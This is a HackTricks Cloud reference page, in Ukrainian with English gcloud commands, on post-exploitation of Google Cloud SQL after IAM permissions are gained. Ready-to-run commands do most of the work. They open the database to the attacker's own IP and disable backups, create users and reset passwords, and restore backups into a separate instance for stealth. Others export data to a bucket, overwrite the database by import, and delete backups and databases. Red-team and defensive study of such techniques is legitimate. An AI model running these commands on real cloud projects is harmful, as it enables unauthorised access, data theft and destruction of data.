 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Для отримання додаткової інформації про Cloud SQL перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Щоб підключитися до баз даних, вам **потрібен доступ до порту бази даних** і знати **ім'я користувача** та **пароль**, немає жодних вимог IAM. Отже, простий спосіб отримати доступ, якщо база даних має публічну IP-адресу, - це оновити дозволені мережі та **дозволити вашій власній IP-адресі отримати доступ до неї**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Також можливо використовувати **`--no-backup`** для **порушення резервних копій** бази даних.

Оскільки це вимоги, я не зовсім впевнений, для чого потрібні дозволи **`cloudsql.instances.connect`** та **`cloudsql.instances.login`**. Якщо ви знаєте, надішліть PR!

### `cloudsql.users.list`

Отримати **список усіх користувачів** бази даних:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ця дозволяє **створити нового користувача всередині** бази даних:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Цей дозвіл дозволяє **оновлювати користувача всередині** бази даних. Наприклад, ви можете змінити його пароль:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Резервні копії можуть містити **стару чутливу інформацію**, тому цікаво їх перевірити.\
**Відновити резервну копію** всередині бази даних:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Щоб зробити це більш приховано, рекомендується створити новий SQL екземпляр і відновити дані там, а не в поточних базах даних.

### `cloudsql.backupRuns.delete`

Ця дозволяє видаляти резервні копії:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Експортуйте базу даних** до Cloud Storage Bucket, щоб ви могли отримати до неї доступ звідти:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Імпортувати базу даних** (перезаписати) з Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Видалити базу даних з екземпляра бази даних:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
